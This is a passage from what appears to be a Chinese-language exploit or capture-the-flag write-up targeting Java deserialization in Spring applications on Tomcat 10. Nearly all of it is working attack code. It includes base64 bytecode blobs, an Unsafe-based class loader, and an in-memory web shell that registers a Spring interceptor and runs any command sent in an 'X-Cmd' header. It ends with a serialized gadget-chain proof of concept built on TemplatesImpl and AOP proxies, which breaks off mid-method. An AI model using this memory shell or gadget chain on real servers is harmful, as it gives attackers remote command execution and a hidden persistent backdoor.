tMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzcztbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwASQDhCgACAOIBAC9vcmcuYXBhY2hlLnRvbWNhdC51dGlsLmRlc2NyaXB0b3Iud2ViLkZpbHRlckRlZggA5AEAB2Zvck5hbWUMAOYAngoAcgDnAQAvb3JnLmFwYWNoZS50b21jYXQudXRpbC5kZXNjcmlwdG9yLndlYi5GaWx0ZXJNYXAIAOkBACRvcmcuYXBhY2hlLmNhdGFsaW5hLmRlcGxveS5GaWx0ZXJEZWYIAOsBACRvcmcuYXBhY2hlLmNhdGFsaW5hLmRlcGxveS5GaWx0ZXJNYXAIAO0BAD0oTGphdmEvbGFuZy9TdHJpbmc7WkxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7KUxqYXZhL2xhbmcvQ2xhc3M7DADmAO8KAHIA8AEADXNldEZpbHRlck5hbWUIAPIBAA5zZXRGaWx0ZXJDbGFzcwgA9AEADGFkZEZpbHRlckRlZggA9gEADXNldERpc3BhdGNoZXIIAPgBAAdSRVFVRVNUCAD6AQANYWRkVVJMUGF0dGVybggA/AwABQAGCgACAP4BADBvcmcuYXBhY2hlLmNhdGFsaW5hLmNvcmUuQXBwbGljYXRpb25GaWx0ZXJDb25maWcIAQABABdnZXREZWNsYXJlZENvbnN0cnVjdG9ycwEAIigpW0xqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjsMAQIBAwoAcgEEAQANc2V0VVJMUGF0dGVybggBBgEAEmFkZEZpbHRlck1hcEJlZm9yZQgBCAEADGFkZEZpbHRlck1hcAgBCgEAHWphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yBwEMCgENAL0BACcoW0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMAMcBDwoBDQEQAQANZmlsdGVyQ29uZmlncwgBEgEADWphdmEvdXRpbC9NYXAHARQBAANwdXQBADgoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwBFgEXCwEVARgBAA9wcmludFN0YWNrVHJhY2UMARoAFwoAGQEbAQAgW0xqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjsHAR0BABZzdW4ubWlzYy5CQVNFNjREZWNvZGVyCAEfAQAMZGVjb2RlQnVmZmVyCAEhAQAJZ2V0TWV0aG9kDAEjALYKAHIBJAEAEGphdmEudXRpbC5CYXNlNjQIASYBAApnZXREZWNvZGVyCAEoAQAGZGVjb2RlCAEqAQAdamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW0HASwKAS0AGgEAHGphdmEvaW8vQnl0ZUFycmF5SW5wdXRTdHJlYW0HAS8BAAUoW0IpVgwAEwExCgEwATIBAB1qYXZhL3V0aWwvemlwL0daSVBJbnB1dFN0cmVhbQcBNAEAGChMamF2YS9pby9JbnB1dFN0cmVhbTspVgwAEwE2CgE1ATcBAARyZWFkAQAFKFtCKUkMATkBOgoBNQE7AQAFd3JpdGUBAAcoW0JJSSlWDAE9AT4KAS0BPwEAC3RvQnl0ZUFycmF5AQAEKClbQgwBQQFCCgEtAUMBAARnZXRGAQA/KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7DAFFAUYKAAIBRwEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkBwFJCgFKAL0KAUoAawEAHmphdmEvbGFuZy9Ob1N1Y2hGaWVsZEV4Y2VwdGlvbgcBTQEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsMAU8BUAoAcgFRAQANZ2V0U3VwZXJjbGFzcwwBUwBuCgByAVQKAU4AFQEAEmdldERlY2xhcmVkTWV0aG9kcwEAHSgpW0xqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7DAFXAVgKAHIBWQoAugBQAQAGZXF1YWxzDAFcAHcKABABXQEAEWdldFBhcmFtZXRlclR5cGVzAQAUKClbTGphdmEvbGFuZy9DbGFzczsMAV8BYAoAugFhCgA/ABUBAApnZXRNZXNzYWdlDAFkAAYKAD0BZQoAjAAVAQAbW0xqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7BwFoAQAIPGNsaW5pdD4KAAIAGg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";

    String className = "org.example.InterceptorShell";
    String base64Payload = "yv66vgAAAD0AowoAAgADBwAEDAAFAAYBABBqYXZhL2xhbmcvT2JqZWN0AQAGPGluaXQ+AQADKClWCgAIAAkHAAoMAAsADAEAPG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvcmVxdWVzdC9SZXF1ZXN0Q29udGV4dEhvbGRlcgEAGGN1cnJlbnRSZXF1ZXN0QXR0cmlidXRlcwEAPSgpTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvcmVxdWVzdC9SZXF1ZXN0QXR0cmlidXRlczsIAA4BADlvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5zZXJ2bGV0LkRpc3BhdGNoZXJTZXJ2bGV0LkNPTlRFWFQLABAAEQcAEgwAEwAUAQA5b3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvY29udGV4dC9yZXF1ZXN0L1JlcXVlc3RBdHRyaWJ1dGVzAQAMZ2V0QXR0cmlidXRlAQAnKExqYXZhL2xhbmcvU3RyaW5nO0kpTGphdmEvbGFuZy9PYmplY3Q7BwAWAQA1b3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvY29udGV4dC9XZWJBcHBsaWNhdGlvbkNvbnRleHQHABgBAFJvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvYW5ub3RhdGlvbi9SZXF1ZXN0TWFwcGluZ0hhbmRsZXJNYXBwaW5nCwAVABoMABsAHAEAB2dldEJlYW4BACUoTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9PYmplY3Q7BwAeAQA+b3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9oYW5kbGVyL0Fic3RyYWN0SGFuZGxlck1hcHBpbmcIACABABNhZGFwdGVkSW50ZXJjZXB0b3JzCgAiACMHACQMACUAJgEAD2phdmEvbGFuZy9DbGFzcwEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsKACgAKQcAKgwAKwAsAQAXamF2YS9sYW5nL3JlZmxlY3QvRmllbGQBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgoAKAAuDAAvADABAANnZXQBACYoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwcAMgEADmphdmEvdXRpbC9MaXN0CwAxADQMADUANgEAA2FkZAEAFihJTGphdmEvbGFuZy9PYmplY3Q7KVYHADgBABNqYXZhL2xhbmcvRXhjZXB0aW9uCAA6AQAFWC1DbWQLADwAPQcAPgwAPwBAAQAnamFrYXJ0YS9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXF1ZXN0AQAJZ2V0SGVhZGVyAQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsKAEIAQwcARAwARQBGAQAQamF2YS9sYW5nL1N0cmluZwEAB2lzRW1wdHkBAAMoKVoKAEgASQcASgwASwBMAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7CgBIAE4MAE8AUAEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsKAFIAUwcAVAwAVQBWAQARamF2YS9sYW5nL1Byb2Nlc3MBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07BwBYAQARamF2YS91dGlsL1NjYW5uZXIKAFcAWgwABQBbAQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWCABdAQACXEEKAFcAXwwAYABhAQAMdXNlRGVsaW1pdGVyAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS91dGlsL1NjYW5uZXI7CgBXAGMMAGQARgEAB2hhc05leHQKAFcAZgwAZwBoAQAEbmV4dAEAFCgpTGphdmEvbGFuZy9TdHJpbmc7CABqAQAACwBsAG0HAG4MAG8AcAEAKGpha2FydGEvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2UBAAlnZXRXcml0ZXIBABcoKUxqYXZhL2lvL1ByaW50V3JpdGVyOwoAcgBzBwB0DAB1AHYBABNqYXZhL2lvL1ByaW50V3JpdGVyAQAFd3JpdGUBABUoTGphdmEvbGFuZy9TdHJpbmc7KVYLAGwAeAwAeQAGAQALZmx1c2hCdWZmZXIHAHsBABxvcmcvZXhhbXBsZS9JbnRlcmNlcHRvclNoZWxsCgB6AAMHAH4BADJvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L0hhbmRsZXJJbnRlcmNlcHRvcgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAdjb250ZXh0AQA3TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvV2ViQXBwbGljYXRpb25Db250ZXh0OwEAB21hcHBpbmcBAFRMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvbWV0aG9kL2Fubm90YXRpb24vUmVxdWVzdE1hcHBpbmdIYW5kbGVyTWFwcGluZzsBAAVmaWVsZAEAGUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBAARsaXN0AQAQTGphdmEvdXRpbC9MaXN0OwEABHRoaXMBAB5Mb3JnL2V4YW1wbGUvSW50ZXJjZXB0b3JTaGVsbDsBAA1TdGFja01hcFRhYmxlAQAJcHJlSGFuZGxlAQBoKExqYWthcnRhL3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7TGpha2FydGEvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2U7TGphdmEvbGFuZy9PYmplY3Q7KVoBAAJpbgEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAAXMBABNMamF2YS91dGlsL1NjYW5uZXI7AQAGb3V0cHV0AQASTGphdmEvbGFuZy9TdHJpbmc7AQAHcmVxdWVzdAEAKUxqYWthcnRhL3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7AQAIcmVzcG9uc2UBACpMamFrYXJ0YS9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXNwb25zZTsBAAdoYW5kbGVyAQASTGphdmEvbGFuZy9PYmplY3Q7AQADY21kBwCdAQATamF2YS9pby9JbnB1dFN0cmVhbQEACkV4Y2VwdGlvbnMBADkoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7KVoBAAg8Y2xpbml0PgEAClNvdXJjZUZpbGUBABVJbnRlcmNlcHRvclNoZWxsLmphdmEAIQB6AAIAAQB9AAAABAABAAUABgABAH8AAADYAAMABQAAAEQqtwABuAAHEg0DuQAPAwDAABVMKxIXuQAZAgDAABdNEh0SH7YAIU4tBLYAJy0stgAtwAAxOgQZBAMquQAzAwCnAARMsQABAAQAPwBCADcAAwCAAAAAKgAKAAAADwAEABEAEwASAB8AEwAnABQALAAVADYAFgA/ABgAQgAXAEMAGQCBAAAANAAFABMALACCAIMAAQAfACAAhACFAAIAJwAYAIYAhwADADYACQCIAIkABAAAAEQAigCLAAAAjAAAABAAAv8AQgABBwB6AAEHADcAAAEAjQCOAAIAfwAAATEAAwAIAAAAYisSObkAOwIAOgQZBMYAVBkEtgBBmgBMuABHGQS2AE22AFE6BbsAV1kZBbcAWRJctgBeOgYZBrYAYpkACxkGtgBlpwAFEmk6Byy5AGsBABkHtgBxLLkAdwEApwAFOgUDrASsAAEAFwBZAFwANwADAIAAAAAqAAoAAAAcAAoAHQAXAB8AJAAgADQAIQBIACIAUwAjAFkAJABeACUAYAAnAIEAAABSAAgAJAA1AI8AkAAFADQAJQCRAJIABgBIABEAkwCUAAcAAABiAIoAiwAAAAAAYgCVAJYAAQAAAGIAlwCYAAIAAABiAJkAmgADAAoAWACbAJQABACMAAAALQAF/gBEBwBCBwCcBwBXQQcAQv8AFQAFBwB6BwA8BwBsBwACBwBCAAEHADcBAQCeAAAABAABADcAAQCNAJ8AAQB/AAAASgABAAQAAAACBKwAAAACAIAAAAAGAAEAAAArAIEAAAAqAAQAAAACAIoAiwAAAAAAAgCVAJoAAQAAAAIAlwCaAAIAAAACAJkAmgADAAgAoAAGAAEAfwAAACUAAgAAAAAACbsAelm3AHxXsQAAAAEAgAAAAAoAAgAAAAwACAANAAEAoQAAAAIAog==";

    static {
        new springMemshell();
    }

    public springMemshell() {
        try {
            Class<?> clazz = null;
            ClassLoader loader = Thread.currentThread().getContextClassLoader();
            if (loader == null) {
                loader = springMemshell.class.getClassLoader();
            }

            try {
                clazz = Class.forName(className, false, loader);
            } catch (ClassNotFoundException e) {
            }

            if (clazz == null) {
                try {
                    Class<?> unsafeClass = Class.forName("sun.misc.Unsafe");
                    Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
                    unsafeField.setAccessible(true);
                    Unsafe unsafe = (Unsafe) unsafeField.get(null);

                    Module module = Object.class.getModule();
                    Class<?> cls = springMemshell.class;
                    long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
                    unsafe.getAndSetObject(cls, offset, module);
                    Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
                    defineClass.setAccessible(true);

                    byte[] bytecode = Base64.getDecoder().decode(base64Payload);
                    clazz = (Class<?>) defineClass.invoke(loader, bytecode, 0, bytecode.length);
                } catch (Exception e) {
                }
            }

            if (clazz != null) {
                clazz.newInstance();
            }

        } catch (Exception e) {
        }
    }
}
```

发现java-chains的内存马用不了，估计是因为Tomcat10里面的类名改变， `javax.servlet.Filter`变成了`jakarta.servlet.Filter`，自己写一个就行了😏

```java
package org.example;

import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import java.lang.reflect.Field;
import java.util.List;

public class InterceptorShell implements HandlerInterceptor {
    static {
        new InterceptorShell();
    }

    public InterceptorShell() {
        try {
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping mapping = context.getBean(RequestMappingHandlerMapping.class);
            Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
            field.setAccessible(true);
            List list = (List) field.get(mapping);
            list.add(0, this);
        } catch (Exception e) {
        }
    }

    public boolean preHandle(jakarta.servlet.http.HttpServletRequest request, jakarta.servlet.http.HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getHeader("X-Cmd");
        if (cmd != null && !cmd.isEmpty()) {
            try {
                java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();
                java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.flushBuffer();
            } catch (Exception e) {}
            return false;
        }
        return true;
    }

    public boolean preHandle(Object request, Object response, Object handler) {
        return true;
    }
}
```

最终poc

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.aop.Advisor;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.framework.DefaultAdvisorChainFactory;
import org.springframework.aop.support.NameMatchMethodPointcutAdvisor;
import org.springframework.aop.target.SingletonTargetSource;
import sun.misc.Unsafe;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.*;

public class Poc {

    public static void main(String[] args) throws Exception {
        patchModule(Poc.class);

        Object templates = createTemplatesImplByUnsafe("calc");
        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(templates);

        AspectJAroundAdvice advice = (AspectJAroundAdvice) allocateInstance(AspectJAroundAdvice.class);
        setField(advice, "aspectInstanceFactory", factory);
        setField(advice, "declaringClass", Templates.class);
        setField(advice, "methodName", "getOutputProperties");
        setField(advice, "parameterTypes", new Class[0]);

        AspectJExpressionPointcut pointcut = (AspectJExpressionPointcut) allocateInstance(AspectJExpressionPointcut.class);
        setField(pointcut, "expression", "");
        setField(advice, "pointcut", pointcut);
        setIntField(advice, "joinPointArgumentIndex", -1);
        setIntField(advice, "joinPointStaticPartArgumentIndex", -1);

        NameMatchMethodPointcutAdvisor advisor = new NameMatchMethodPointcutAdvisor(advice);
        advisor.setMappedName("toString");
        List<Advisor> advisors = new ArrayList<>();
        advisors.add(advisor);

        Class<?> jdkDynamicProxyClass = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> proxyConstructor = jdkDynamicProxyClass.getDeclaredConstructor(AdvisedSupport.class);
        proxyConstructor.setAccessible(true);

        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTargetSource(new SingletonTargetSource("target"));

        setField(advisedSupport, "advisors", advisors);
        setField(advisedSupport, "advisorChainFactory", new DefaultAdvisorChainFactory());

        InvocationHandler handler = (InvocationHandler) proxyConstructor.newInstance(advisedSupport);

        Object proxy = Proxy.newProxyInstance(
                Poc.class.getClassLoader(),
                new Class[]{Map.class},
                handler
        );

        EventListenerList listenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector edits = (Vector) getField(undoManager, "edits");
        edits.add(proxy);
        setField(listenerList, "listenerList", new Object[]{Class.class, undoManager});


        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(listenerList);
        oos.close();
        String base64Str = Base64.getEncoder().encodeToString(barr.toByteArray());
        System.out.println(base64Str);

//        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
//        ObjectInputStream ois = new ObjectInputStream(bais);
//        ois.readObject();
    }

    private static Unsafe getUnsafe() {
        try {
            Field f = Unsafe.class.getDeclaredField("theUnsafe");
            f.setAccessible(true);
            return (Unsafe) f.get(null);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    private static Object allocateInstance(Class<?> clazz) {
        try {
            return getUnsafe().allocateInstance(clazz);
        } catch (InstantiationException e) {
            throw new RuntimeException(e);
        }
    }

    private static void setField(Object obj, String fieldName, Object value) {
        try {
            Field field = null;
            Class<?> clazz = obj.getClass();
            while (clazz != null) {
                try {
                    field = clazz.getDeclaredField(fieldName);
                    break;
                } catch (NoSuchFieldException e) {
                    clazz = clazz.getSuperclass();
                }
            }
            if (field == null) throw new NoSuchFieldException(fieldName);

            Unsafe unsafe = getUnsafe();
            long offset = unsafe.objectFieldOffset(field);
            unsafe.putObject(obj, offset, value);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    private static void setIntField(Object obj, String fieldName, int value) {
        try {
            Field field = null;
            Class<?> clazz = obj.getClass();
            while (clazz != null) {
                try {
                    field = clazz.getDeclaredField(fieldName);
                    break;
                } catch (NoSuchFieldException e) {
                    clazz = clazz.getSuperclass();
                }
            }
            if (field == null) throw new NoSuchFieldException(fieldName);

            Unsafe unsafe = getUnsafe();
            long offset = unsafe.objectFieldOffset(field);
            unsafe.putInt(obj, offset, value);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    private static Object getField(Object obj, String fieldName) {
        try {
            Field field = null;
            Class<?> clazz = obj.getClass();
            while (clazz != null) {
                try {
                    field = clazz.getDeclaredField(fieldName);
                    break;
                } catch (NoSuchFieldException e) {
                    clazz = clazz.getSuperclass();
                }
            }
            if (field == null) throw new NoSuchFieldException(fieldName);

            Unsafe unsafe = getUnsafe();
            long offset = unsafe.objectFieldOffset(field);
            return unsafe.getObject(obj, offset);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    private static Object createTemplatesImplByUnsafe(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
//        CtClass evilClass = pool.makeClass("Evil" + System.nanoTime());
//        evilClass.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"" + cmd + "\");");

        CtClass evilClass = pool.get("org.example.springMemshell");
        evilClass.setName("Evil"+System.nanoTime());
        byte[] evilBytes = evilClass.toBytecode();

        CtClass stubClass = pool.makeClass("Stub" + System.nanoTime());
        byte[] stubBytes = stubClass.toBytecode();

        Object templates = allocateInstance(TemplatesImpl.class);

